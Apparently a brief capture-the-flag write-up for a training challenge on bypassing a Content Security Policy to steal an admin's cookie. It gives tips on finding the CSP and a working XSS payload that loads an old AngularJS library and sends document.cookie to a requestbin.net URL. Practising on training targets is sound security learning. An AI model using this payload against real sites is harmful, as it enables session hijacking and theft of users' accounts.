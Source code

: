 # CSP

Steal the admin's cookie on this website: http://csp.training.ctf.necst.it/

The admin will visit the pages you report using this form: http://checker.training.ctf.necst.it/checker.php. Pay attention to pick the right challenge in the dropdown.




//check for csp --> f12 - network - headers - Content Security Policy
//check where is the csp --> put a script in each field and see where it is actually printed in the source like a script but not showed in the page or executed

<button ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js> </script> <div ng-app>{{constructor.constructor('window.location.href="http://requestbin.net/r/ujvudcuj?cookie="+document.cookie;')()}} </div></button>

https://csp.training.ctf.necst.it/poll/246288f5888945a992c65967381259c3